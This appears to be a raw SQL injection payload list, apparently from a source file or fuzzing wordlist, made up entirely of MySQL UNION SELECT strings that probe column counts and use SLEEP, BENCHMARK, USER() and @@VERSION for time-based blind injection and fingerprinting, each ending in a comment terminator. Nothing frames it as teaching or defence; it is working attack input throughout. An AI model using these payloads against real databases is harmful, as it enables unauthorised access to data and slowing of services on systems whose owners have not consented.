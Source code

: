 @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30  UNION SELECT @@VERSION,SLEEP(5),"'3  UNION SELECT @@VERSION,SLEEP(5),"'3'"#  UNION SELECT @@VERSION,SLEEP(5),USER(),4#  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5#  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6#  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7#  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8#  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9#  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10#  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11#  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12#  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13#  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14#  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15#  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16#  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17#  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18#  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20#  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21#  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22#  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23#  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24#  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25#  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26#  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27#  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28#  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29#  UNION SELECT @@VERSION,SLEEP(5),USER(),BENCHMARK(1000000,MD5('A')),5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30#  UNION ALL SELECT USER()--   UNION ALL SELECT SLEEP(5)--   UNION ALL SELECT USER(),SLEEP(5)--   UNION ALL SELECT @@VERSION,USER(),SLEEP(5)--   UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A'))--   UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL--   UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL--   UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL--   UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL--   UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL--   UNION ALL SELECT @@VERSION,USER(),SLEEP(5),BENCHMARK(1000000,MD5('A')),NULL,NULL,NULL,NULL,NULL,NULL--